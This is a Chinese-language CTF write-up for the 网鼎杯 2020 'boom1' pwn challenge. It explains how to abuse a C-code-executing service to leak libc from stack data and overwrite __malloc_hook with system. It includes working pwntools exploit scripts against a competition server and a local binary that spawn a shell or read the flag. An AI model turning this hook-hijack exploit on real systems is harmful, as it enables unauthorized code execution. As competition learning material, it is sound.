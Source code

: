 ```yaml
---
title: 网鼎杯 2020 Pwn boom1
date: 2020-05-10 00:00:00
categories:
- CTF/Pwn
tags:  
---
```


> 多亏mcfx指导，才能做出这题，感谢。64位程序，保护全开，可以执行我们发送的c代码，但可以执行的代码有些限制，不能执行system之类的函数，但可以任意写内存。最终通过利用栈上的数据，获得了libc的基址，完成了对__malloc_hook的劫持，进而getshell。

- 题目地址：nc 182.92.73.10 24573
- 题目附件：[boom1](https://xuanxuanblingbling.github.io/assets/attachment/boom1)

## 分析

程序保护全开，可以执行我们发送的c代码，但是函数只能调用固定的几个函数，而且只能调用一次。不过因为可以执行代码，而且支持指针，所以通过赋值语句就可以完成内存的修改，也就是说这题本身就有**任意读写内存的能力**，只需要泄露出关键的地址即可控制流劫持。通过调试发现在执行我们的函数时的栈上是保存着很多信息的，程序地址，堆，栈，libc相关信息都能在栈上找得到。所以只要能使用栈上的变量即可，想到两种方法获得栈地址：

1. 通过main函数的argv
2. 通过直接对我们可以控制的局部变量取地址

拿到栈地址后，对栈地址进行偏移调整，然后解引用，观察其值，找到libc相关的地址，与本地libc基址进行对比，进而得到偏移。然后通过赋值语句修改能控制流劫持的重要内存即可，这里修改malloc_hook为system，然后执行调用malloc传/bin/sh即可getshell。

## 调试

```python
from pwn import *
myelf = ELF("./pwn")
io = process(myelf.path)
gdb_libc_base = int(os.popen("pmap "+str(io.pid)+"| grep libc | awk '{"+"{print $1}"+"}'").readlines()[0], 16)
payload= '''
int main(int argc,char ** argv){
    int a;
    printf("%llx,%llx\n",&a,argv);
}
'''
gdb.attach(io)
io.send(payload)
log.warn(hex(gdb_libc_base))
io.interactive()
```

不过根据调试的结果：

```bash
[*] Switching to interactive mode
I'm living...
7f56c2bb8fd8,7ffe2eacba40
```

就会发现：

1. argv获得的是真正的栈地址
2. &a获得是在堆上的逻辑栈

不过通过printf打印这两个栈上内容发现都有libc相关数据。

## 利用

写内存时注意类型转换才可以成功` * (int *)malloc_hook = system;`中`(int *)`必不可少

1. 远程通过argv利用
2. 本地通过&a利用

### 远程

> 远程的libc和本地的2.23相同，因为调试的时候去掉本地算出的偏移后后三位也是0，所以基本确定。

```python
from pwn import *
io = remote("182.92.73.10",24573)
payload= '''
int main(int argc,char ** argv){
    int libc,system,malloc_hook;
    libc = argv[24]-0x3ca000;
    system = libc + 0x45390;
    malloc_hook = libc + 0x3c4b10;
    * (int *)malloc_hook = system;
    malloc("/bin/sh");
}
'''
io.send(payload)
io.interactive()
```

### 本地

```python
from pwn import *
myelf = ELF("./pwn")
io = process(myelf.path)
payload= '''
int main(){
    int libc,system,malloc_hook;
    libc = *(&system-2)-0x509fd8;
    system = libc + 0x45390;
    malloc_hook = libc + 0x3c4b10;
    * (int *)malloc_hook = system;
    malloc("cat /flag");
}
'''
io.send(payload)
io.interactive()
```

## 总结

可以看到本题基本没有怎么分析二进制，却一样能做出来，所以做题不一定非要清楚漏洞在哪（这个二进制我也看不太懂，再次感谢mcfx指导）。另外个人觉得这题也无法归类到二进制漏洞中，就是一种情景，在这个情景下你能运行代码，进行内存写，不过运行的做了一些限制，不过你还是能绕过这些限制劫持控制流。**即这题本身就有读写任意内存的能力，不过你得想办法泄露一些地址信息，本题的泄露方法就是对栈的理解和应用**。我认为这道题可以类似理解为攻击oj，就是一个能运行你代码的程序，你咋攻击他，挺神奇的一个题。

- [有什么卡OJ评测机的方法](https://www.zhihu.com/question/67138068)